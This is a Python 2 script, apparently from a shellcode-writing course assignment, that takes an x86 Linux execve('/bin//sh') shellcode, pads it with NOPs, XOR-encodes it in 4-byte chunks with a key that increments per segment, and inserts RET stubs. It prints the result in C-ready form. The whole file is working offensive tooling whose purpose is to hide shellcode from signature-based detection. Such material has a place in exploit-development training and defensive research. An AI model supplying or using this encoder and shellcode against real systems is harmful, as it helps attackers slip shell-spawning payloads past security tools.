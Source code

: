 ```python
#!/usr/bin/python
# Python Custom Incremental Encoder
# Author: SLAE-935

import random
from BitVector import * # https://engineering.purdue.edu/kak/dist/BitVector-3.4.7.html#8

shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
segment_size = 11

encoded = ""
encoded2 = ""
current_segment_encoded = ""
current_segment_encoded2 = ""

current_encrypt_key = 0xfbe7b6fd #0xfdb6e7fb #Little Endian (it should be the opposite of asm)
segment_jump_back_stub = 0xC3 # RET (pops latest 4bytes from the stack and put them in EIP returning to get_pc)

print 'Encoded shellcode ...'
shellcode_byte_ar = bytearray(shellcode)
lastIndex = 0
current_segment_size = 0 

shellcode_enc = BitVector(size = 0)

# Nop-Pad-Right the latest group if not a dword
for x in range(0, (4 - len(shellcode_byte_ar) % 4)):
    shellcode_byte_ar.append(0x90) 
  
# Progressive 4bytes xor encoder
for x in range(4, len(shellcode_byte_ar) + 4, 4):
    shellcode_chunk = BitVector(rawbytes = shellcode_byte_ar[lastIndex:x])
    key = BitVector(intVal=current_encrypt_key)
    print "Original chunk: " + shellcode_chunk.get_bitvector_in_hex()
    shellcode_enc_chunk = shellcode_chunk ^ key
    # xor current 4 bytes chunk
    shellcode_enc += shellcode_enc_chunk
    print "Encoded chunk: " + shellcode_enc_chunk.get_bitvector_in_hex()
    lastIndex = x
    current_segment_size += 4
    if (current_segment_size == segment_size):
        current_encrypt_key += 1
        current_segment_size = 0
# print(shellcode_enc.get_bitvector_in_hex())
# 31c050682f2f7368682f62696e89e35089e25389e1b00bcd80909090 Original
# ca27e695d4c8c59593c8d494956e55ad7205e5741a57bd307b77266d Encoded

# writes shellcode in c compatible format
current_segment_size = 0
for x in bytearray(shellcode_enc.get_bitvector_in_ascii()):
    current_segment_encoded += '\\x%02x' % x 
    current_segment_encoded2 += '0x%02x,' % x
    current_segment_size += 1
    # every 4 * segment_size bytes insert a callback stub
    if (current_segment_size == 4 * segment_size):
        current_segment_encoded += '\\x%02x' % segment_jump_back_stub
        current_segment_encoded2 += '0x%02x,' % segment_jump_back_stub
        current_segment_size = 0

print 'Original Shellcode: 31c050682f2f7368682f62696e89e35089e25389e1b00bcd80909090'
print 'Encoded Shellcode:  ' + shellcode_enc.get_bitvector_in_hex()
```